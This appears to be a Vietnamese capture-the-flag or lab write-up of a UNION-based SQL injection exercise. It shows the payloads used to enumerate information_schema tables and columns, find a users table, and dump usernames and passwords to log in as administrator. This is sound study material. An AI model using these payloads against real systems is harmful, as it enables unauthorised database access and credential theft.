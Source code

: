 ![image](https://github.com/user-attachments/assets/df4f29e7-1ca3-4db6-8be7-9ab4708420e5)

Mục tiêu: liệt kê nội dung không thuộc database của phiên bản ORACLE

Sử dụng payload đã dùng trong bài SQL trước cho Microsoft như sau  \

     'UNION SELECT 'abc','def'-- -

![image](https://github.com/user-attachments/assets/41373566-c667-4dc8-9099-9b8ed262ebbd)

Nhìn trông có vẻ như payload này đã hoạt động

Trong bài nó yêu cầu lấy dữ liệu không thuộc ORACLE nên mở cheat seat xem có payload nào hữu dụng không thì sẽ có payload database content của microsoft 

     SELECT * FROM information_schema.tables

     SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

Thử với cái payload đầu kiểu

     'UNION SELECT table_name, NULL FROM information_schema.tables-- -

   ![image](https://github.com/user-attachments/assets/05daffab-8a3f-4383-ba3e-a06491c66288)

Hỏi chatgpt về information_schema.tables 

![image](https://github.com/user-attachments/assets/68ad914f-9b73-4ad4-9e07-d31875d581ba)

Sử dụng ctrl F để check và nhập user vào(chắc vậy do trong vid cookie hân hoan phần lớn sẽ chỉ có user đi với password nên là sử dụng thử)

Sau 1 lúc thì tìm ra cái này 

![image](https://github.com/user-attachments/assets/760ac388-e8ae-415f-bae2-ef947c61643d)

users_pvyfau tìm ra được bởi do nó khác với các cái user còn lại 

Sử dụng payload sau để check mật khẩu
 
     'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_pvyfau'-- -

![image](https://github.com/user-attachments/assets/90d3e7f9-ebfd-4372-bfca-05fd980b8895)

Nhìn vào có cả user và password nên ta tiếp tục sử dụng payload sau để mò ra pass cuối

'UNION SELECT username_dgwtcr,password_gxbmfa FROM users_pvyfau-- -

![image](https://github.com/user-attachments/assets/9675646c-80dd-4acb-b9e7-42b3c4bcfb42)

Viết vào phần login là ra kết quả 

![image](https://github.com/user-attachments/assets/78987c53-6dac-4a59-87e6-3288a35c2589)
